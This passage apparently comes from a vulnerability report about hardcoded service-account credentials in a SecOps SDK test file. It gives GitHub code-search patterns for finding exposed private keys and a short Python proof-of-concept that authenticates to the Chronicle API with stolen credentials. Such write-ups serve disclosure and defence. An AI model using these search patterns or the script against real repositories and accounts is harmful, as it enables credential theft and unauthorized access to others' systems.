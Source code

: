     2. **Attacker Action (Credential Discovery):**
        - As an attacker, use GitHub's code search (or a similar code search engine) to look for publicly exposed service account credentials. Search for keywords and code patterns like:
            - `"SecOpsClient(service_account_path="`
            - `"SecOpsClient(service_account_info = {"`
            - `"type": "service_account"` and `"private_key"`
        - Look for repositories containing files resembling `test_secops_client.py` or similar SDK usage patterns.
        - If the attacker finds your repository, examine the `test_secops_client.py` file. The attacker will be able to extract the hardcoded `service_account_info` dictionary or the `service_account_path`.

    3. **Attacker Action (Unauthorized Access):**
        - The attacker copies the extracted `service_account_info` dictionary or downloads the exposed service account JSON file (if applicable).
        - The attacker creates their own Python script (e.g., `attacker_script.py`) and initializes the `SecOpsClient` using the stolen credentials:

        ```python
        from secops import SecOpsClient

        # Using stolen service_account_info
        stolen_service_account_info = { # Paste the stolen dictionary here }
        attacker_client = SecOpsClient(service_account_info=stolen_service_account_info)

        # OR, if service_account_path was exposed and file downloaded/accessible
        # attacker_client = SecOpsClient(service_account_path="path/to/downloaded-service-account.json")


        attacker_chronicle = attacker_client.chronicle(
            customer_id="TARGET_CUSTOMER_ID", # Replace with the customer ID from the exposed code if available, or try common IDs
            project_id="TARGET_PROJECT_ID",   # Replace with the project ID from the exposed code if available
            region="us"
        )

        try:
            validation = attacker_chronicle.validate_query('target.ip != ""')
            print("Attacker: Successfully validated query using stolen credentials:", validation)
            # Further API calls can be made to access Chronicle data.
        except Exception as e:
            print("Attacker: Failed to access Chronicle API using stolen credentials:", e)
        ```
        - Run `attacker_script.py`. If the service account credentials are valid and the attacker correctly uses the customer ID and project ID (which might also be exposed in the vulnerable code), the attacker will successfully authenticate and access the Chronicle API, demonstrating unauthorized access.
